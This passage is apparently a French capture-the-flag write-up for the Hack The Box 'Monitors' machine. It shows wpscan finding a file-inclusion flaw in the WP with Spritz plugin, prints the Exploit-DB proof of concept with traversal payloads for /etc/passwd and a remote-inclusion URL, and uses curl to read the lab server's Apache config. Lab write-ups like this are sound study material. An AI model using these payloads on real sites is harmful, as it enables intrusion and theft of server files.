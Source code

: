 ```
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
[...]
```
## Wordpress RFI
Wpscan nous dit que la version du plugin ``wp-with-spritz`` est vulnérable à un RFI:
``` 
┌──(kali㉿kali)-[~]
└─$ locate 44544                       
/usr/share/exploitdb/exploits/php/webapps/44544.php
          
┌──(kali㉿kali)-[~]
└─$ cat /usr/share/exploitdb/exploits/php/webapps/44544.php                                  
# Exploit Title: WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
# Date: 2018-04-25
# Exploit Author: Wadeek
# Software Link: https://downloads.wordpress.org/plugin/wp-with-spritz.zip
# Software Version: 1.0
# Google Dork: intitle:("Spritz Login Success") AND inurl:("wp-with-spritz/wp.spritz.login.success.html")
# Tested on: Apache2 with PHP 7 on Linux
# Category: webapps


1. Version Disclosure

/wp-content/plugins/wp-with-spritz/readme.txt

2. Source Code

if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);

3. Proof of Concept

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec                                                                                  
``` 
Ainsi, allons voir la configuration d'apache:
```
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/000-default.conf
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
[...]
```
